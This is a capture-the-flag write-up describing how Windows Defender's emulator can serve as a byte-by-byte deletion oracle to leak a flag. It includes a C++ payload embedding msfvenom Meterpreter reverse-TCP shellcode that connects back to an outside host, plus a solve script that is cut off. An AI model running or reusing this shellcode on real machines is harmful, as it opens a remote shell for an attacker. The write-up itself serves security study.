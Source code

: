 In task, we have a simple LRU cache on disk written in Python. The name
heavily hints that the server is running with Windows Defender near, the hint
sends us back to WIndows Defender task where the solution was the JavaScript
deletion oracle. This time, JS won't work.

Every good antivirus has an x86 emulator these days, that's what immediately
came to my mind. It is called on new executable files when any disk operation
happens to them, for example, new file is saved to the disk. And what is the
100% trigger for the antivirus? One may think that EICAR string will suffice,
but it's not true, EICAR string should appear at the beginning of the file.
What we really need is some common shellcode, like Msfvenom's
`windows/x64/meterpreter/reverse_tcp`. Again, every good antivirus has
signatures for Msfvenom's shellcodes.

Back to the task, what is happening there? The app appends the flag to our
file before saving it do disk. How can we abuse it? First of all, WinAPI makes
it extremely easy to read our own executable. Now we can conditionally decrypt
and call the shellcode if, for example, last byte of our executable is less
then 0x40. If it is indeed less, then the shellcode will be decrypted in
emulator, trigger the signature, and file will be deleted (but the server will
return an UUID for this file). Consequently, trying to get this file will
return an HTTP 500 error (I don't really know why). If the shellcode was not
decrypted,  the file will be saved, and GET will return 200. That's our
oracle.

Additionally, since there are limits on emulator run time, I preemtively
optimized the payload binary, i.e., deleted all mentions of CRT, now the
execution starts immediately from my `main` function, and there is only one
function and one shellcode in the binary. As a consequence, no standard
library can be used. I added the `/NODEFAULTLIB` parameter to linker command
line and also set the entry point to `main` function. After that, the binary
size is 5 KB.

`payload.cpp`:  
``` cpp  
#define WIN32_LEAN_AND_MEAN  
#include <Windows.h>

// shellcode is encrypted by solve.py  
#pragma section(".text")  
__declspec(allocate(".text"))  
unsigned char shellcode[] = ""  
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"  
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"  
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"  
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"  
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"  
"\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b"  
"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b"  
"\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41"  
"\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1"  
"\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45"  
"\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"  
"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"  
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48"  
"\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"  
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00"  
"\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5"  
"\x49\xbc\x02\x00\x7a\x69\x89\x2d\xe4\x89\x41\x54\x49\x89\xe4"  
"\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68"  
"\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a"  
"\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89"  
"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5"  
"\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba"  
"\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5"  
"\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9"  
"\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5"  
"\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41"  
"\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41"  
"\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"  
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8"  
"\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40"  
"\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5"  
"\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c"  
"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41"  
"\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

int main() {  
   TCHAR path[MAX_PATH];  
   GetModuleFileName(NULL, path, MAX_PATH);  
   auto hFile = CreateFile(path, FILE_READ_DATA, FILE_SHARE_READ, NULL,
OPEN_EXISTING, 0, NULL);  
   SetFilePointer(hFile, -1, NULL, FILE_END);  // -1 here is patched by
solve.py  
   unsigned char c;  
   ReadFile(hFile, &c, 1, NULL, NULL);

   // debug output  
   auto stdout = GetStdHandle(STD_OUTPUT_HANDLE);  
   unsigned char x;  
   x = "0123456789ABCDEF"[c >> 4];  
   WriteFile(stdout, &x, 1, NULL, NULL);  
   x = "0123456789ABCDEF"[c & 15];  
   WriteFile(stdout, &x, 1, NULL, NULL);

   DWORD oldProtect;  
   if (!VirtualProtect((LPVOID)((ptrdiff_t)&shellcode & 0xFFFFFFFFFFFFF000LL),
0x1000, PAGE_EXECUTE_READWRITE, &oldProtect)) {  
       WriteFile(stdout, "VirtualProtect failed", 22, NULL, NULL);  
       return 0;  
   }  
   if (c <= 0x60) {                            // 0x60 here is patched by
solve.py  
       for (size_t i = 0; i < sizeof(shellcode); ++i) {  
           shellcode[i] ^= 0xAA;  
       }  
   }  
   ((void(*)())&shellcode)();  
   return 0;  
}  
```

`solve.py`:  
``` python  
#!/usr/bin/env python3  
import requests  
import sys  
import struct

HOST = 'http://angry-defender.zajebistyc.tf/cache'

def prepare(position, charcode):  
   with open('payload.exe', 'rb') as f:  
       q = f.read()  
   it =
q.find(b'\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52')  
   q = list(q)  
   for i in range(it, it + 511):       # encrypt shellcode  
       q[i] ^= 0xAA  
   q = bytes(q)  
   it = q.find(b'\x83\xF8\x60')  
   q = q[:it + 2] + struct.pack('B', charcode) + q[it + 3:]  
   q = q[:0x65B] + struct.pack('